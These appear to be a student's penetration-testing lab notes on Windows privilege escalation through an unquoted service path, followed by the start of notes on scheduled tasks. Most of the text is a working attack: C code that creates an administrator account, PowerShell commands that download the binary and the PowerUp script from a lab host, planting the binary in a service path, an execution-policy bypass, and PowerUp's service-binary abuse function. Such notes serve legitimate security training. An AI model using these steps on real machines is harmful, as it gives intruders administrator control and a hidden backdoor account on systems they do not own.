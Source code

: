 ```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
ok
	Compile
		``x86_64-w64-mingw32-gcc adduser.c -o adduser.exe``
	Transfer over, rename, and 
		PS `iwr -uri http://192.168.48.3/adduser.exe -Outfile Current.exe`
		PS `copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'`
	Start-Service
		`Start-Service GammaService`
	Verify
		`net user`
		`net localgroup administrators`

Lets see if PowerUp identifies this
	Transfer PowerUp.ps1
		`iwr http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1
	Run
		`powershell -ep bypass`
		`.\PowerUp.ps1`
		`Get-UnquotedService`
		We see GammaService is listed as a potential vulnerable service
	AbuseFunction for automated takeover?
		`Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"`
		`Restart-Service GammaService`
		`net user`
		`net localgroup administrators`
	Success

#### Abusing Other Windows Components

##### Scheduled Tasks
```
Some tasks get triggered by us running something... Keep that in mind
```
Windows uses Task Scheduler to execute automated tasks, like clean up activities or update management

3 important pieced of info
	Task is executed as which user account (principal)?
	What triggers are specified for the task?
	What actions are executed when one or more triggers are met?

